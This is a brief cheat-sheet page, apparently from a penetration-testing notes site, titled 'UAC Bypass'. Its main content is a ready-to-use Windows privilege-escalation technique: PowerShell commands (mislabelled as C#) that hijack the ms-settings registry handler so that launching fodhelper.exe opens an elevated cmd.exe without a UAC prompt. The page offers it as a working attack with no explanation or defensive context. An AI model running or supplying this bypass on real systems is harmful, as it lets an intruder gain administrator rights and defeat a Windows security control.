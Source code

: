 # UAC Bypass

## UAC bypass

### 2 liners

```csharp
New-Item -Path HKCU:\SOFTWARE\Classes\ms-settings\Shell\Open\command  -Value cmd.exe -Force 
New-ItemProperty -Path HKCU:\SOFTWARE\Classes\ms-settings\Shell\Open\command -Name DelegateExecute -PropertyType String -Force

fodhelper.exe
```

![](../../../../.gitbook/assets/image%20%28255%29.png)

